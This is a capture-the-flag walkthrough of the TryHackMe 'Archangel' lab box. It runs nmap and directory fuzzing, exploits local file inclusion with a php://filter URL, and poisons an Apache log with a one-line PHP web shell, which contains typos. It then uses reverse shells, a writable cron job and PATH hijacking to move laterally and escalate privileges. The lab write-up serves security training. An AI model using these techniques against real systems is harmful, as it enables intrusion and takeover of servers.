

In this walkthrough, we'll go over a challenge (easy) level box called ***Archangel*** on [TryHackMe](https://tryhackme.com/room/archangel) 


Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.7.126 --open
```
It looks like the ports 22 and 80 are open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 13:37 EDT
Nmap scan report for mafialive.thm (10.10.7.126)
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/test.php
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.72 seconds
```
When we visit the webpage, we can see that there is another domain:


Let's add that to the "/etc/hosts" file. Upon visiting the site, we can see the first flag. However, in this tutorial I'll be focusing on initial foothold and privilege escalation.


We can run dirsearch on this new website `dirsearch -u http://mafialive.thm/ -r -f -t 50 -x 302,400,403,500,503 -w /usr/share/wordlists/dirb/big.txt`:


We then check "robots.txt" and find another page "test.php" also dirsearch found that page:


After visiting http://mafialive.thm/test.php, we can see that the page is executing PHP:



I use `php://filter/convert.base64-encode/resource=` function to obtain the content of test.php
`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`


I then decode the encoded string and find the content of the test php file:


We would need to use "/var/www/html/development_testing" in the command so we can now pursue the LFI attack vector. We can fuzz the "test.php" for LFI with ffuf
`ffuf -w /usr/share/wfuzz/wordlist/vulns/dirTraversal-nix.txt -u http://mafialive.thm/test.php?view=/var/www/html/development_testing/FUZZ -fs 286,310 -t 100`:


I try the first payload in BurpSuite to display the output:


We can inspect "/var/log/apache2/access.log" file:


### Poisoning a file for RCE via LFI
We can now pursue an RCE via poisoning "/var/log/apache2/error.log":
```php
<?php passthrough($GET['cmd']); ?>
```


After that we are able to run "ls -la" command:


I downloaded php-revershell from pentestmonkey and transferred it to the target machine with wget:


### Lateral Movement
We can first look at "/etc/crontab" and it shows that there is a cronjob running by archangel:


Since we have rights to edit the file, we can run a python revshell:


We now have a shell as archangel:


In the archangle's home folder there is an exe called backup so let's create a file and made it executable:


We can now add "/home/archange/secret" to the PATH variable and run the backup binary file:


I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
